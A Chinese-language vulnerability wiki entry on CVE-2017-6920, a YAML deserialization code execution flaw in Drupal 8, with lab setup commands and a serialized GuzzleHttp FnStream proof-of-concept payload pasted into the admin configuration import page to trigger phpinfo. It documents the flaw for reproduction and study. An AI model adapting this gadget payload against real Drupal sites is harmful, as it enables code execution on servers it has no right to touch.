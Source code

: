 （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞
=================================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

二、漏洞影响
------------

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal
Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

三、复现过程
------------

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8080/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

-   先安装 `yaml` 扩展

```{=html}
<!-- -->
```
    # 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
    cat > sources.list << EOF
    deb http://mirrors.163.com/debian/ jessie main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    EOF
    # 安装依赖
    apt update
    apt-get -y install gcc make autoconf libc-dev pkg-config
    apt-get -y install libyaml-dev
    # 安装yaml扩展
    pecl install yaml
    docker-php-ext-enable yaml.so
    # 启用 yaml.decode_php 否则无法复现成功
    echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
    # 退出容器
    exit
    # 重启容器，CONTAINER换成自己的容器ID
    docker restart CONTAINER

-   1.登录一个管理员账号

-   2.访问
    `http://127.0.0.1:8080/admin/config/development/configuration/single/import`

-   3.如下图所示，`Configuration type` 选择
    `Simple configuration`，`Configuration name`
    任意填写，`Paste your configuration here` 中填写PoC如下：

```{=html}
<!-- -->
```
    !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId26.png)

-   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId27.png)

-   Tips：

    -   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在
        `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0`
        则可以复现成功，故基础镜像选择`drupal:8.3.0`

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2017-6920/
